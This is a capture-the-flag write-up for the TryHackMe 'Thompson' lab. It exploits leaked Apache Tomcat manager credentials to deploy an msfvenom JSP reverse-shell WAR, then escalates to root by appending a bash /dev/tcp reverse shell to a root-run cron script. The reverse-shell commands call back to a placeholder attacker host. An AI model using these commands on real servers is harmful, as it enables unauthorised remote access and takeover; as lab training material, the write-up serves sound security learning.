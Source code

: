 # [Thompson](https://tryhackme.com/room/bsidesgtthompson)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Wed Aug 11 13:12:17 2021 as: nmap -vvv -p 8009,8080 -sCV -oA nmap/init 10.10.235.48
Nmap scan report for box.ip (10.10.235.48)
Host is up, received conn-refused (0.37s latency).
Scanned at 2021-08-11 13:12:17 +07 for 39s

PORT     STATE SERVICE REASON  VERSION
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 11 13:12:56 2021 -- 1 IP address (1 host up) scanned in 39.11 seconds
```

Going to the site on port 8080, we're met with the default Apache Tomcat page. Going to the 3 managerial pages, Server Status, Manager App, and Host Manager, we get a prompt for credential. Clicking "Cancel", we get an error page containing the credentials.

![Error page with credentials](error-cred.png)

Using the found credentials, we can go log into all 3 pages. Looking at the page at `/manager/html`, we see that we can upload and deploy WAR files.

![](manager-war.png)

A WAR (Web ARchive) file contains files of a web application, meaning we can upload our own application and run arbitrary code. We can easily generate a malicious WAR file using `msfvenom`.

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATK_IP LPORT=1337 -f war -o shell.war
```

We can then run a simple `nc` listener, navigate to `http://box.ip:8080/shell`, and get a shell on the server as `tomcat`.

![](shell.png)

Checking `/home`, we see the user "jack".

```sh
tomcat@ubuntu:/$ ls /home
jack

tomcat@ubuntu:/$ ls -la /home/jack
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Aug 10 23:55 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

Inside jack's home directory, we have our user flag, as well as the file `id.sh` for which we have write permission.

```sh
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

Since the the output of `id` inside `id.sh` seems to be `root`, we know that `id.sh` is being run as root. Assuming `id.sh` is being run in/as a cron job, we put a reverse shell in `id.sh`, set up a listener, and wait.

```sh
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
bash -c 'exec bash -i &>/dev/tcp/ATK_IP/1337 <&1'
```

With this, we should have a shell as root on the server.
